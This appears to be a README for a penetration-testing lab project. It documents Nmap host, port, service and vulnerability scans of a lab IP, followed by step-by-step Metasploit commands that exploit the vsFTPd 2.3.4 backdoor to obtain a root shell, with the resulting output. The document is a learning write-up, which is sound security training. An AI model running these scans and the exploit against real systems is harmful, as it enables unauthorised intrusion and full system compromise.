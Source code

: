 # Nmap VSFTPD Exploitation Project

This project demonstrates how to identify and exploit a vulnerability in the vsFTPd 2.3.4 service using **Nmap** and **Metasploit** within a controlled lab environment.

## 🔍 Overview

This step-by-step guide walks through scanning a vulnerable target using `nmap`, discovering a backdoor on the FTP port, and gaining root access via `Metasploit`.

---

### 🚀 Step 1: Discover if the Target is Up (Host Discovery)
```
nmap -sn 192.168.25.128 -oN scans/01-host-discovery.txt
```
![Host Discovery](screenshots/kali1.png)

### 🔥 Step 2: Full TCP Port Scan (All 65535 Ports)
```
nmap -p- -T4 192.168.25.128 -oN scans/02-full-port-scan.txt
```
![Full Port Scan](screenshots/kali2.png)

### Step 3: Service & Version Detection + Default Scripts
```
nmap -sC -sV -p- 192.168.25.128 -oN scans/03-service-detection.txt
```
![Service Detection](screenshots/kali3.png)
![Service Detection](screenshots/kali4.png)

### Step 4: Vulnerability Scanning with NSE
```
nmap --script vuln -p 21,22,23,25,53,80,111,139,445,3306 192.168.25.128 -oN scans/04-vuln-scan.txt
```
![Vulnerability Scan](screenshots/kali5.png)
![Vulnerability Scan](screenshots/kali6.png)

---

## 💥 Exploiting vsFTPd 2.3.4 Backdoor with Metasploit

### Step-by-Step Exploit

1. Launch Metasploit:
   ```bash
   msfconsole
   ```
2. Search for the module:
   ```bash
   search vsftpd
   ```
3. Use the exploit:
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOST 192.168.25.128
   set RPORT 21
   run
   ```
4. If successful, you’ll see:
   ```
   Command shell session X opened ...
   ```
5. Run:
   ```bash
   id
   ```
   Output:
   ```
   uid=0(root) gid=0(root)
   ```

✅ You now have root shell access!
![MetaSploit](screenshots/screen1.png)

---

## 📘 Real-World Application

This was a **controlled simulation** where I learned how to identify services and exploit a known vulnerability using **Nmap** and **Metasploit**.

In real-world penetration testing or vulnerability assessments, I follow the **same core phases**:
- **Discovery**: Identifying live hosts and open ports
- **Enumeration**: Gathering detailed information about services and versions
- **Exploitation**: Ethically attempting to exploit known vulnerabilities to validate risk

🔒 **Important Note**:  
The tools and commands may vary based on the target systems, environments, and client requirements. However, the **methodology remains consistent** - understanding why a vulnerability exists, **how it can be exploited ethically**, and most importantly, **how to help clients remediate the issue**.

---

## 🛠️ Tools Used
- Nmap
- Metasploit Framework (msfconsole)
- Kali Linux

## 📌 Disclaimer

This was done in a controlled lab environment for learning purposes only.


